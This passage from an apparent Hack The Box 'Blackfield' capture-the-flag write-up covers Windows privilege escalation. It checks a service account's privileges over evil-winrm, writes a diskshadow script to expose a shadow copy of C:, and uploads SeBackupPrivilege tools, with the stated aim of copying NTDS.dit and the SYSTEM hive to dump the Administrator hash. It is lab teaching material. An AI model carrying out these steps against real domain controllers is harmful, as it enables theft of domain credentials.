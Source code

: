 # Privilege Escalation

## Getting NTDS.dit and SYSTEM hive

Now that we have a foothold, let's run `whoami /priv` to see what privileges we have.


```powershell
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

We can see that we have the privilege SeBackupPrivilege and SeRestorePrivilege, this is our path to root.

I found [this](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf) document, which details how to get the NTDS.dit file from the box using our privileges. We can also save the SYSTEM registry hive using this privilege, with this combo, we can dump the Administrator hash.

First, we create a script to use with disk shadow.

```bash
finlay@kali:~/htb/blackfield$ cat disk_shadow.txt 
set context persistent nowriters#
add volume c: alias new1#
create#
expose %new1% z:#
```

Then we can download the SeBackupPrivilege modules from [here](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)

Now we can upload all these files to the machine using the `upload` command within evil-winrm.

![upload_files](images/upload_files.png)
